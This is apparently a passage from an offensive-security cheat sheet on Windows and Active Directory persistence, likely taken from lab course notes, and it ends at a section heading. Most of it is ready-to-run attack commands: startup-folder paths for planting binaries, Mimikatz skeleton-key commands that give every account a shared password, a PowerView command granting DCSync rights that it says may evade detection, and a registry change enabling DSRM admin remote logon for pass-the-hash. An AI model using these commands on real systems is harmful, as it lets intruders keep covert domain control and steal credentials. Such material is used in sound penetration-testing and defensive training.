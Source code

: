 Persistence
-----------

### Startup folder

Just drop a binary. Classic 😎🚩

In current user folder, will trigger when current user signs in:

```
c:\Users\[USERNAME]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup 
```

Or in the startup folder, requires administrative privileges but will trigger as SYSTEM on boot _and_ when any user signs on:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp 
```

Domain Persistence
------------------

Must be run with DA privileges.

### Mimikatz skeleton key attack

Run from DC. Enables password “mimikatz” for all users 🚩.

```
privilege::debug
misc::skeleton 
```

### Grant specific user DCSync rights with PowerView

Gives a user of your choosing the rights to DCSync at any time. May evade detection in some setups.

```
Add-ObjectACL -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName student355 -Rights DCSync 
```

### Domain Controller DSRM admin

The DSRM admin is the local administrator account of the DC. Remote logon needs to be enabled first.

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD 
```

Now we can login remotely using the local admin hash dumped on the DC before (with `lsadump::sam`, see ‘Dumping secrets with Mimikatz’ below). Use e.g. ‘overpass the hash’ to get a session (see ‘Mimikatz’ above).

### Modifying security descriptors for remote WMI access
